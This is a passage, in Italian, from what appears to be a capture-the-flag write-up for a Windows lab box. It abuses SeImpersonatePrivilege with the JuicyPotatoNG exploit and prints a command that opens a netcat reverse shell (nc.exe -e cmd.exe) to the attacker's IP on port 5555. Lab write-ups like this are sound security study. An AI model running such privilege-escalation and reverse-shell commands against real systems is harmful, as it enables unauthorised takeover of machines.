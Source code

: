 </p>

Il fatto di non essere ancora root mi distrugge, ma vado avanti lo stesso.

Controllo i privilegi dell'utente:

<p align="center">
  <img src="/Immagini/Windows-Box/Flight/flight-25.png"/>
</p>

Tra questi c'è _SeImpersonatePrivilege_ il quale è associato ad una famiglia di exploit chiamata _potatoes_.

Quindi scarico il file [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG/releases), lo trasferisco sulla macchina vittima e lo eseguo (avviando in precedenza un listener sulla porta 5555):

```bash
.\JuicyPotatoNG.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:\Windows\Temp\nc.exe 10.10.14.8 5555 -e cmd.exe"
```

<p align="center">
  <img src="/Immagini/Windows-Box/Flight/flight-26.png"/>
</p>
